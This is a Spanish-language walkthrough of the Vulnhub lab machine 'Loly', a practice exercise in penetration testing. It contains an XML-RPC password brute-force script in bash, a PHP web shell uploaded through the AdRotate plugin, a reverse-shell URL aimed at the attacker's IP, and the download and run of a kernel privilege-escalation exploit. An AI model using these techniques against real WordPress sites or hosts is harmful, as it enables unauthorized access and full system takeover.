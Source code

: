 ```yaml
---
layout: single
title: Loly - Vulnhub
date: 26/10/2023
classes: wide
header:
  teaser:

tags:
  - Web Enumeration
  - WordPress Enumeration
  - Abusing xmlrpc.php
  - Bash advanced
  - Abusing AdRotate Manage Media > RCE
  - Kernel Exploitation
  - fácil
  - linux
---
```


# PortScan
____

```
 # Nmap 7.93 scan initiated Thu Oct 26 12:15:10 2023 as: nmap -sCV -p80 -oN targeted 192.168.204.155
 Nmap scan report for loly.lc (192.168.204.155)
 Host is up (0.00065s latency).
 
 PORT   STATE SERVICE VERSION
 80/tcp open  http    nginx 1.10.3 (Ubuntu)
 |_http-server-header: nginx/1.10.3 (Ubuntu)
 |_http-title: Welcome to nginx!
 MAC Address: 00:0C:29:C2:90:A8 (VMware)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Thu Oct 26 12:15:17 2023 -- 1 IP address (1 host up) scanned in 7.68 seconds
```

# Sitio Web
____

![](/assets/images/loly/Pasted image 20231026142343.png)

El sitio web de Loly es bastante básico, por lo que procedemos a buscar nuevas rutas mediante el fuzzing.


```
gobuster dir -u http://192.168.204.155 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

```
/wordpress/           (Status: 200) 
```

El directorio tiene un enlace a un vhost con nombre "**loly.lc**". Agregamos esto a nuestro servidor en el "/etc/hosts" para poder ver el directorio "wordpress" con su respectivo estilo.

Indagando en el Wordpress, vemos un sólo post de único usuario

![](/assets/images/loly/Pasted image 20231026143125.png)

Por lo que ya sabemos un usuario válido.

# Enumeración WordPress
_____

```
gobuster dir -u http://192.168.204.155/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php,wp
```

Veremos qué tenemos el "**xmlrpc.php**" expuesto, y otros directorios.
```
/index.php            (Status: 301) [Size: 0] [--> http://192.168.204.155/wordpress/]
/wp-content/          (Status: 200) [Size: 0]                                        
/wp-login.php         (Status: 200) [Size: 6744]                                     
/wp-includes/         (Status: 403) [Size: 178]                                      
/wp-trackback.php     (Status: 200) [Size: 135]                                      
/wp-admin/            (Status: 302) [Size: 0] [--> http://loly.lc/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.204.155%2Fwordpress%2Fwp-admin%2F&reauth=1]
/xmlrpc.php           (Status: 405) [Size: 42]   
```

![](/assets/images/loly/Pasted image 20231026143323.png)

Y nos dice que el XMLRPC sólo acepta peticiones por POST, por lo qué podríamos tratar de abusar de este recurso para obtener las credenciales válidas mediante un script en Bash, y para corroborarlo debemos mandarle una solicitud con el método GET con una estructura XML qué nos permita listar los métodos disponibles del recurso XMLRPC, y sí el método "wp.getUsersBlogs" está activo, podremos realizar un script en bash que mediante fuerza bruta nos permita obtener las credenciales válidas.

```
curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml | grep "wp.getUsersBlogs"
```

y como vemos el método está activo.
```
<value><string>wp.getUsersBlogs</string></value>
```

# Fuerza Bruta XMLRPC en bash.
____

Nos montamos este script en bash.
```
#!/bin/bash


function createXML(){
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"utf-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>loly</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""


  echo $xmlFile > file.xml
  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml)
  if [ ! "$(echo $response | grep "Incorrect username or password.")" ]; then
    echo -e "\n[+] La contraseña para 'loly' es: $password"
    exit 0 
  fi 

}


cat /usr/share/wordlists/rockyou.txt | while read password; do 
  createXML $password

done
```

Una vez ejecutado, nos dará las credenciales válida del usuario "loly".


# Abuso Plugin AdRotate.
____

Sí nos fijamos en el plugin AdRotate, podremos subir archivos en formatos .zip y automáticamente se descomprimirían.

![](/assets/images/loly/Pasted image 20231026144909.png)

Por lo que podemos aprovecharnos de subir un código malicioso en **PHP** comprimido el cual nos permita llevar a cabo un RCE desde la URL, para ello debemos convertirlo en zip y posteriormente subirlo.

El código malicioso .PHP tendrá lo siguiente:
```
<?php system($_GET['cmd']); ?>
```

Lo convertimos a zip, para posterior a ello subirlo en el plugin AdRotate, el cual lo descomprimirá y tan sólo se quedará con la extensión .PHP, pero para aprovecharnos de este archivo malicioso que subimos, debemos saber donde se guarda, por lo qué abajo nos deja una pista, que el directorio final sería /banners, y si nos fijamos en el fuzzing que hicimos anteriormente había un directorio /wp-content, donde suele guardarse el contenido de los WordPress, por lo qué el recurso estaría en "/wp-contet/banners/nombre_del_recurso_subido"

![](/assets/images/loly/Pasted image 20231026145053.png)

Y ya desde la URL estamos llevando a cabo un RCE, por lo que podemos entablarnos una Reverse Shell con el típico one line y conectarnos a la máquina.
```
http://loly.lc/wordpress/wp-content/banners/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip_atacante/443%200%3E%261%22
```

# Escalada de Privilegios.
____

```
uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
Sí buscamos esta versión de Kernel en searchsploit, veremos que es vulnerable a escalada de Privilegios. 

![](/assets/images/loly/Pasted image 20231026150048.png)

Por lo que obtenemos este script, para compilarlo, subirlo a la máquina víctima & ejecutarlo desde allí.
```
searchsploit -m linux/local/45010.c
mv 45010.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
python3 -m http.server 80
```
Y ya desde la máquina víctima obtenemos el recurso donde tengamos de escritura.
```
wget ip_de_atacante/dirty
chmod +x dirty
./dirty
```
y así escalaremos como ROOT.

![](/assets/images/loly/Pasted image 20231026150312.png)
